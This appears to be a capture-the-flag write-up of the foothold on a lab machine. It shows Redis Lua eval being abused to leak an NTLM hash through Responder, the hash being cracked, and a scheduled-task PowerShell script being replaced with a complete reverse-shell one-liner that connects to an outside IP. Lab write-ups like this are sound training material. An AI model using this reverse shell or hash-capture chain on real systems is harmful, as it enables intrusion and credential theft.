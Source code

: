 


## Foothold / Privilege Escalation:

### Initial Foothold

Through the port scan I saw the redis port open (port 6379). I enumerated the redis database for the version and found a valid user `enterprise-security` by using the `CONFIG GET *` redis-cli command.
Using the `eval` command I could execute lua code and send a request to a file on a remote share using the `dofile()` function.

I used this to make a request to my Responder SMB server and get the `enterprise-security` user NTLM hash.

![redis_smb_request](../pictures/vulnnet-active/redis_smb_request.png)

I then used hashcat to crack it.
With the credentials I am able to login to the SMB server and see that it contains a powershell script which is possibly a scheduled task script, so I downloaded it and edited it with a reverse shell command from PayloadsAllTheThings.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.23.113.200',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I uploaded it back to the server under the same name and waited for the task to run so it connects to my listener.
